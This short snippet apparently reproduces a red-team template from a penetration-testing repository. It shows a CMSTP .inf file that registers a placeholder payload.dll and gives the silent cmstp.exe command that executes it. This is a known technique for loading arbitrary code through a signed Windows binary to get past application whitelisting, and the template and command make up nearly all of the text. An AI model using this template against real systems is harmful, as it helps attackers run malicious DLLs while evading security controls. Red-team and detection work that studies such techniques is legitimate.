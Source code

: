 ### Source
* https://github.com/mgeeky/Penetration-Testing-Tools/blob/master/red-teaming/cmstp-template.inf

### File template
```
[version]
signature=$chicago$
 
[defaultinstall_singleuser]
registerocxs=r
 
[r]
C:\fully\qualified\path\to\payload.dll
 
[strings]
servicename=foobar
shortsvcname=foobar
```

### Execute file
```
cmstp.exe /ni /s .\<file>.inf
```

